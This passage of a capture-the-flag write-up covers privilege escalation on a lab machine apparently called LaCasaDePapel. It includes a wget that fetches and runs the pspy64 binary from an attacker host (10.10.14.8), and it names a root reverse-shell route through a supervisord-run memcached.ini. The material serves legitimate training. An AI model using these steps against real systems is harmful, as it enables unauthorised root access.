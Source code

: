 Checking process with ```ps aux```,

```c
lacasadepapel [~]$ ps aux
PID   USER     TIME  COMMAND

...

10739 root      0:00 {supervisord} /usr/bin/python2 /usr/bin/supervisord --nodaemon --pidfile /var/run/supervisord.pid --configuration /etc/super
10747 nobody    0:05 /usr/bin/node /home/professor/memcached.js
```

On recently called process, there is the content of ```memcached.ini``` and ```supervisord``` is also being used

```supervisord``` is similar to ```cronjobs``` used to automated tasks in linux

Lets try to gather architecture information of this machine so that we can use ```pspy``` to trace the process

```c
lacasadepapel [~]$ uname -a
Linux lacasadepapel 4.14.78-0-virt #1-Alpine SMP Tue Oct 23 11:43:38 UTC 2018 x86_64 Linux
lacasadepapel [~]$ wget http://10.10.14.8:4545/pspy64
Connecting to 10.10.14.8:4545 (10.10.14.8:4545)
pspy64               100% |**************************************************************************************************| 3006k  0:00:00 ETA
lacasadepapel [~]$ chmod +x pspy64 
```

Running ```pspy64```,

```c
lacasadepapel [~]$ ./pspy64 -f

...

2021/09/15 11:37:02 FS:                 OPEN | /etc/supervisord.conf
2021/09/15 11:37:02 FS:               ACCESS | /etc/supervisord.conf
2021/09/15 11:37:02 FS:             OPEN DIR | /home/professor
2021/09/15 11:37:02 FS:             OPEN DIR | /home/professor/
2021/09/15 11:37:02 FS:           ACCESS DIR | /home/professor
2021/09/15 11:37:02 FS:           ACCESS DIR | /home/professor/
2021/09/15 11:37:02 FS:           ACCESS DIR | /home/professor
2021/09/15 11:37:02 FS:           ACCESS DIR | /home/professor/
2021/09/15 11:37:02 FS:    CLOSE_NOWRITE DIR | /home/professor
2021/09/15 11:37:02 FS:    CLOSE_NOWRITE DIR | /home/professor/
2021/09/15 11:37:02 FS:                 OPEN | /home/professor/memcached.ini
2021/09/15 11:37:02 FS:               ACCESS | /home/professor/memcached.ini
2021/09/15 11:37:02 FS:        CLOSE_NOWRITE | /home/professor/memcached.ini
```

It is confirmed that, ```memcached.ini``` is used by ```supervisord```

If we try to modify the content in ```memcached.ini```, we can use it to gain ```reverse shell``` with ```root``` level privilege, because ```supervisord``` runs as root
